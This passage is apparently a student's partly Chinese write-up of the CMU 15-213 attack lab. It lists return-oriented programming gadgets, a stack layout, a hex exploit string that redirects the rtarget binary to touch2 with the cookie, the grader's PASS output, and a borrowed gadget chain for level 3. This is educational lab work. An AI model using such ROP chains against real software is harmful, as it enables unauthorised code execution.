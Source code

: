 ```
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax		58 pop rax
  4019cf:	c3                   	retq   

00000000004019d0 <mid_farm>:
  4019d0:	b8 01 00 00 00       	mov    $0x1,%eax
  4019d5:	c3                   	retq   
```
故在栈顶一次存放数据为
```
004019cc pop rax
59b997fa cookie值
004019c5 mov rax,rdi
touch2 地址
```
exploit string如下
```
30 31 32 33 34 35 36 37 38 39		//前40个任意字符填充
30 31 32 33 34 35 36 37 38 39
30 31 32 33 34 35 36 37 38 39
30 31 32 33 34 35 36 37 38 39
cc 19 40 00 00 00 00 00 
fa 97 b9 59 00 00 00 00 
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
结果为
```
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```
***
###Level3
solution: do not have time,[from internet](https://blog.csdn.net/qq_36894564/article/details/72863319)

先把%rsp存储的栈顶指针值复制给%rdi， 再将%eax的值设置为cookie字符串地址在栈中的偏移量并复制给%esi，最后将二者相加即为cookie字符串的存储地址。
```
mov   %rsp,%rax
ret
mov   %rax,%rdi
ret
popq  %rax         
ret                 
movl  %eax,%edx
ret
movl  %edx,%ecx
ret
movl  %ecx,%esi
ret
lea   (%rdi,%rsi,1),%rax
ret
mov   %rax,%rdi
ret
```



